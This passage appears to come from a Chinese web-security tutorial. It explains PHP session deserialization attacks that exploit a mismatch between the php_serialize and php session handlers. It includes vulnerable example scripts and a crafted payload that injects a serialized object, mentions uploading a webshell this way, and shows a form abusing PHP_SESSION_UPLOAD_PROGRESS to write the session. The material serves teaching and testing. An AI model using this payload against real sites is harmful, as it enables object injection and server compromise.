 如果 PHP 在反序列化存储的 $_SESSION 数据时的使用的处理器和序列化时使用的处理器不同，会导致数据无法正确反序列化，通过特殊的构造，甚至可以伪造任意数据。

```php
//foo1.php

ini_set('session.serialize_handler', 'php_serialize');
session_start();

$_SESSION['ryat'] = $_GET['ryat'];


//foo2.php

ini_set('session.serialize_handler', 'php');
//or session.serialize_handler set to php in php.ini 
session_start();

class ryat {
    var $hi;
    
    function __wakeup() {
        echo 'hi';
    }
    function __destruct() {
        echo $this->hi;
    }
}
```

当访问 foo1.php 时，提交数据如下：

```php
foo1.php?ryat=|O:4:"ryat":1:{s:2:"hi";s:4:"ryat";}
```

脚本会按照 php_serialize 处理器的序列化格式存储数据，访问 foo2.php 时，则会按照 php 处理器的反序列化格式读取数据，这时将会反序列化伪造的数据，成功实例化了 ryat 对象。这个场景的利用需要能够构造 Session 的值，如果没有提供写入 Session 的地方，可以利用 Session Upload Progress。

******
  注意：<font color='red'>如果利用这种方式上传了 webshell，读取文件的时候需要使用绝对路径，例如
   /opt/lampp/htdocs/index.php</font>
****

## Session Upload Progress

上传文件时，如果 POST 一个名为 PHP_SESSION_UPLOAD_PROGRESS 的变量，就可以将 filename 的值赋值到session 中，filename 的值如果包含双引号，还需要进行转义，上传的页面的写法如下：

```php
<form action="http://example.com/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```
